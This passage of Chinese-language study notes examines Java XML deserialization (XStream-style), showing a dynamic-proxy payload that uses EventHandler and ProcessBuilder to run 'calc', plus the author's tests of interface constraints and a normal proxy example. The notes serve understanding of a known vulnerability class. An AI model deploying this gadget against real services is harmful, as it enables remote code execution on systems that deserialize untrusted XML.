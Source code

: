 正常使用的xml：
```xml
<contact>  
    <name>John Doe</name>
    <email>john.doe@example.com</email>  
</contact>
```

对于这个代码，可以成功的命令执行
```xml
<contact class='dynamic-proxy'>  
    <interface>Contact</interface>  
    <handler class='java.beans.EventHandler'>  
        <target class='java.lang.ProcessBuilder'>  
            <command>                
            <string>calc</string>  
            </command>        
        </target>        
        <action>start</action>  
    </handler>
    <name>John Doe</name>
    <email>john.doe@example.com</email>  
</contact>
```

我理解大概是本来应该转换出一个Contact出来，Poc的xml则是转成了一个 com.sun.proxy动态代理
当动态代理的接口Contact调用时则触发handle，那如果注册的接口是其他的呢

![](../../images/Pasted%20image%2020241204103737.png)

很可惜，就算把监听接口改成其他的，这个转换出来的类直接无法给contact，不仅无法使用Contact的函数了，并且后续也无法触发了
![](../../images/Pasted%20image%2020241204104855.png)

如果换成ContactImpl也一样无法触发
![](../../images/Pasted%20image%2020241204115346.png)

也就是接受返回的必须是一个接口，并且监听的必须是这个接口，才能赋值成功

#### 1.2.3 正常Proxy动态代理序列化

那么一个正常的proxy类应该长什么样子呢

> 动态代理参考：
> https://blog.csdn.net/zhaoyanjun6/article/details/125835341

```java
public interface Student {  
	String getName();  
	void setName(String name);  
	int getAge();   
	void setAge(int age);  
	String getStudentId();  
	void setStudentId(String studentId);  
	void morning(String name);  
}
```
